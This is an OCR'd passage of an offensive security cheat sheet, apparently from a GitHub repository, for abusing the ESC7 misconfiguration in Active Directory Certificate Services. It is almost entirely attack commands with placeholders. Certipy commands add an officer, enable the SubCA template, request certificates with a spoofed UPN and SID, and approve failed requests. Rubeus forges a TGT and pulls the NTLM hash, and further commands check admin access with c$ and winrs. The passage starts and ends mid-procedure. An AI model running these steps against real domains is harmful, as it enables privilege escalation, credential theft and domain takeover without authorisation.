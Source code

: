 ````
.\Certify-esc7.exe download /ca:<FQDN CA>\<CA NAME> /id:<REQUEST ID>
```

#### Append certificate
```
notepad esc7.pem
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

#### Give ManageCertificates rights
- Only run if required
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -add-officer <TARGET USER>
```

#### Enable SubCA template
- Only run if required
- Requires ManageCertificates rights
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -enable-template 'SubCA'
```

### Linux
#### Get SID of user 
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Request cert and abuse SAN
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -extensionsid <OBJECTSID> -out 'esc7' -debug
```

#### Approve failed certificate
- Requires `ManageCA` and `ManageCertificates` permissions
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -issue-request <REQUEST ID> -debug
```

#### Download approved request
```
````